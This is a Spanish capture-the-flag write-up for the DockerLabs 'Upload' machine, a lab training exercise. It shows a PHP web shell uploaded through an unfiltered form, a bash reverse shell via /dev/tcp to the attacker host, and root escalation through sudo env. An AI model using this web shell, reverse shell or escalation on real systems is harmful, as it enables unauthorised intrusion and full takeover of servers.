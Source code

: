 ![image](https://github.com/x4nderht/CTFs/blob/effd1af3fa859eb27c3a2ecb55b427217151c9f0/DockerLabs/Upload/imgs/upload-banner.png)

[Maquina](https://mega.nz/file/pOdwgYbB#8lTyf-mWFNq7xvKWObKUV9gkrZj3nzhuHVlGQmnZ6BQ)   \   [Dockerlabs](https://dockerlabs.es/)


## Reconocimiento

Comenzamos con un escaneo de `nmap` a todos los puertos de la maquina vulnerable en busca de puertos abiertos.

```shell
nmap -p- --open -sS --min-rate 5000 -vvv 172.17.0.2 -oG allPorts
________________________________________________________________

PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```

Solo hay un puerto abierto, el **puerto 80**. Este corresponde a un servicio http(Hyper Text Transfer Protocol) o servicio web en pocas palabras.

Ahora hacemos un segundo escaneo con `nmap` sobre este puerto abierto con un conjunto de scripts basicos de reconocimientos que trae por defecto nmap con el parametro `-sC` he incluimos el parametro `-sV` para que nos detecte la version del servicio que corre en dicho puerto. Estos dos se pueden escribir como `-sCV`.

```shell
nmap -p80 -sCV 172.17.0.2 -oN targeted
______________________________________
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)
```
En los resultados del escaneo podemos ver que dentro del **puerto 80** se aloja una pagina web que, tal parece, nos deja subir archivos al servidor.

Visualizamos la pagina web.

![image](https://github.com/x4nderht/CTFs/blob/effd1af3fa859eb27c3a2ecb55b427217151c9f0/DockerLabs/Upload/imgs/upload-img1.png)

Al tener la oportunidad de subir archivos a una web, en lo primero que pensariamos es en subir un archivo *php* con el que podamos ejecutar comandos dentro de la maquina atraves de un paramentro definido en el script. Esto sera asi en caso de que la maquina no aplique ningun tipo de sanitizacion sobre los tipos de archivos que se pueden subir.

Creamos un archivo *php* con un paramentro `cmd` al cual le pasaremos los comandos que deceemos ejecutar.
```shell
echo "<?php system(\$_GET['cmd']); ?>" >> test.php
```

El archivo se logra subir sin ningun problema por lo que, no se esta aplicando ningun tipo de sanitizacion en el servidor.

Ahora debemos encontrar la ruta en donde ha sido guardado nuestro archivo. Para ello, haremos uso de `wfuzz` para encontrar esa ruta en donde fue guardado nuestro archivo. Con el parametro `--hc=404` excluimos todos las respuestas HTTP con codigo 404 (Not Found) que pueda regresar el servidor.

```shell
wfuzz -c --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt http://172.17.0.2/FUZZ
________________________________________________________________________________________________________________
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/FUZZ
Total requests: 1273832

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000001:   200        53 L     104 W      1361 Ch     "# directory-list-2.3-big.txt"
...
000000164:   301        9 L      28 W       310 Ch      "uploads"
```

`Wfuzz` nos ha econtrado un directorio llamado **"uploads"**.

Si revisamos ese directorio podremos ver que ahi se encuntra alojado nuestro archivo *test.php*.

![image](https://github.com/x4nderht/CTFs/blob/effd1af3fa859eb27c3a2ecb55b427217151c9f0/DockerLabs/Upload/imgs/upload-img2.png)

Nos dirijimos directamente atraves de la URL a nuestro archivo php y hacemos un llamado al parametro que predefinimos anteriormente para que ejecute el comando `id` en la maquina.

```
http://172.17.0.2/uploads/test.php?cmd=id
```

![image](https://github.com/x4nderht/CTFs/blob/effd1af3fa859eb27c3a2ecb55b427217151c9f0/DockerLabs/Upload/imgs/upload-img3.png)
Al hacer esto podremos observar la respuesta del servidor ante el comando `id` por lo que el archivo funciona y el servidor interpreta de forma correcta las peticiones hechas atraves del archivo php. Sabiendo esto, podemos intentar entablar una revershell del servidor a nuestra maquina atacante. 

## Explotacion

Nos colocamos en escucha con `netcat` por el **puerto 443** en espera de la conexion.
```shell
nc -nlvp 443
```
Y atraves del parametro `cmd` de nuestro archivo le hacemos la peticion al servidor para que establezca una conexion con nuestra maquina atacante. Cambiamos el caracter `&` por su expresion en URL(`%26`), para que pueda ser interpretado por el servidor:
```shell
http://172.17.0.2/uploads/test.php?cmd=bash -c "bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261"
```
![image](https://github.com/x4nderht/CTFs/blob/effd1af3fa859eb27c3a2ecb55b427217151c9f0/DockerLabs/Upload/imgs/upload-img4.png)
Y hemos logrado ganar acceso como el usuario *www-data*.

## Escalada de privilegios

Ejecutamos un `sudo -l` para ver si existe algun comando que podamos ejecutar con altos privilegios.

```shell
sudo -l
________________________
...
User www-data may run the following commands on 41e845320485:
    (root) NOPASSWD: /usr/bin/env
```
Vemos que el usuario *www-data* puede ejecutar `/usr/bin/env` como *root* sin necesidad de proporcionar alguna credencial. Por ende, ejecutamos una **bash** atraves del comando `env` como *root*.
```shell
sudo env /bin/bash
```

Y comprobamos con el comando `whoami` o `id` que ya somos usuario *root*.

![image](https://github.com/x4nderht/CTFs/blob/effd1af3fa859eb27c3a2ecb55b427217151c9f0/DockerLabs/Upload/imgs/upload-img5.png)

##

De esta forma hemos resuelto la maquina Upload de DockerLabs.






